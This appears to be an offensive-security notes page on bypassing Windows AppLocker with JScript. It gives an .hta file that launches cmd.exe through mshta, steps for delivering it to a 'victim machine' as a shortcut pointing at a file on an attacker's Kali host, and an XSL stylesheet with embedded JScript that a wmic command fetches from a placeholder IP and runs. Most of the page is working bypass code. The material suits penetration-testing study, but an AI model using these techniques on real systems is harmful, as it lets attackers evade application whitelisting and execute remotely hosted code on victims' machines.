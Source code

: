 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Applocker_Bypass_JScript
---
```


<span style="font-size: 35px; color:red"><b>Applocker Bypass with JScript</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>MSHTA</b></span>
We'll abuse <span style="color:red">Microsoft HTML Applications</span> (MSHTA) running an .hta file.

Simple hta file:
```hta
<html> 
<head> 
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head> 
<body>
<script language="JScript">
self.close();
</script>
</body> 
</html>
```

To run it:
```shell
mshta C:\Tools\test.hta
```

To deliver it, you can createa shortcut. To create the shortcut file, we'll right-click the desktop on the Windows 10 victim machine and navigate to _New_ -> _Shortcut_. In the new window, we'll enter the MSHTA executable path <span style="color:red">(C:\Windows\System32\mshta.exe)</span> followed by the URL of the .hta file on our Kali machine
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>XSL Transform</b></span>
The process of XSLT uses <span style="color:red">Extensible Stylesheet Language</span> (.xsl) documents to transform an XML document into a different format such as <span style="color:red">XHTML</span>.
XSL file (test.xsl):
```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell"); 'payload here
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>
```

Download and run like so:
```shell
wmic process get brief /format:"http://<IP>/test.xsl"
```
